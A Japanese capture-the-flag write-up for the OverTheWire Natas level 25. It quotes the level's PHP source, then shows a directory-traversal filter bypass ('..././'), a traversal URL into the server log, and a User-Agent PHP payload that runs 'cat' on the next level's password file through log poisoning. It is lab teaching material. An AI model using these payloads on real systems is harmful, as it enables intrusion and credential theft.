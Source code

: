 ![](img/natas25-1.png)  

調べたら"Quotes - Bad Boy Bubby (1993)"というのが出てきて映画のセリフ(?)らしい。  

ソースコードを見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "<censored>" };</script></head>
<body>
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
<p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

setLanguage()関数で言語を設定できる。  
safeinclude()関数でファイル指定の悪意のある入力の無害化を行っている。  
listFiles()関数で指定されたディレクトリのファイルリストを配列で返している。  
logRequest()関数で年月日、User-Agent、session_id、message（引数）で`/var/www/natas/natas25/logs`ディレクトリにログをとっている。  

safeinclude()関数でパストラバーサル攻撃の防御を行っているコードがあるが、  
`....//`や`..././`などで回避できる。  


以下で自分のログファイルを見られる。  
`http://natas25.natas.labs.overthewire.org/?lang=..././..././..././..././..././..././..././var/www/natas/natas25/logs/natas25_<session_id>.log`  


次に行うのは`if(strstr($filename,"natas_webpass")){`の箇所の回避だが、  
パストラ攻撃で指定したファイルが見られる & ログファイルにUser-Agentを格納している & include()で読み出している ので、  
User-Agentにphpコードを仕込むことができる。  


以下のように行う。  
![](img/natas25-2.png)  

User-Agentに`<?php echo exec("cat /etc/natas_webpass/natas26"); ?>`を指定している。  

再度、ログファイルを見てみると...  
![](img/natas25-3.png)  


クリア
